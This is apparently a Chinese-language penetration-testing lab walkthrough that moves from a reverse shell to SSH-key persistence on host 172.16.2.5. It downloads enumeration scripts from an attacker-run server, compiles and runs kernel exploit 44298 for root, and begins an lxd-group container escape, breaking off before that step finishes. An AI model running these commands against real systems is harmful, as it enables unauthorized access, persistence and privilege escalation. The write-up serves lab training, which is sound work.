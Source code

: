 成功获得反弹shell：拿稳定shell第三种方法
which ssh-keygen   ---安装了keygen

ssh-keygen   ---一直回车就行
cd ~/.ssh
cp id_rsa.pub authorized_keys
chmod 400 *
cat id_rsa

然后回到kali执行：touch id_rsa
将ta用户中的id_rsa中的值拷贝进来!
chmod 400 *

ssh -i id_rsa -p 34483 ta@172.16.2.5   ---成功登录！


内网信息枚举：
wget http://172.16.3.6:5555/LinEnum.sh
wget http://172.16.3.6:5555/linpeas.sh
chmod +x LinEnum.sh
chmod +x linpeas.sh


提权：方法1
Linux version 4.4.0 exploit：44298
cp /usr/share/exploitdb/exploits/linux/local/44298.c .
gcc 44298.c -o dayushell
wget http://172.16.3.6:5555/dayushell
chmod +x dayushell
./dayushell
成功获得shell！

如果是32位的kali系统用gcc编译44298.c会报错，因为里面代码含有_u64写的编码…必须得64位系统用gcc编译！

CVE-2021-4034*****
虽然版本可以利用，但是该项目环境没有安装gcc！


方法二：ssh登录（通过拓展小技巧知道了）34483端口

ssh -i id_rsa -p 34483 ta@172.16.2.5

group
ta adm cdrom dip plugdev lxd lpadmin sambashare   ---这里lxd
参考资料：
https://reboare.github.io/lxd/lxd-escape.html

安装了lxd且给定用户是lxd组的成员，则它们具有以下命令的相同权限：/etc/sudoers
admin ALL=NOPASSWD: ALL！！！！

cat /proc/version
可以看出是64位的linux！


git clone https://github.com/saghul/lxd-alpine-builder
cd lxd-alpine-builder/
chmod 777 *
proxychains ./build-alpine -a x86_64
最后生成：alpine-v3.13-x86_64-20210218_0139.tar.gz
然后将alpine-v3.13-x86_64-20210218_0139.tar.gz传输到目标机上！
